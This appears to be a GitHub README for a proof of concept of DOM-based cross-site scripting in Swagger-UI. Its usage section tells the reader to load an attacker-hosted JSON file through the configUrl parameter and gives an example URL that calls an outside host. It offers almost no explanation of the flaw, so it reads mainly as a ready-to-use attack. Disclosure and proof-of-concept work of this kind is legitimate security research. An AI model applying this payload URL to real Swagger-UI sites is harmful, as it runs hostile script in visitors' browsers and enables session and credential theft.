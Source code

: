 # Swagger-UI DOM Based XSS POC

This repository serves as a Proof of Concept (POC) for demonstrating **DOM-based Cross-Site Scripting (XSS)** vulnerabilities in Swagger-UI

<img width="1010" alt="image" src="https://github.com/Wh02m1/Swagger-UI-XSS/assets/21974999/bb975b8a-1b75-48e4-982c-08c8220e33db">

# Usage
Add `https://wh02m1.github.io/Swagger-UI-XSS/test.json` to the **configUrl** parameter.
It will be like this `https://domain/endpoint?configUrl=https://jumpy-floor.surge.sh/test.json`

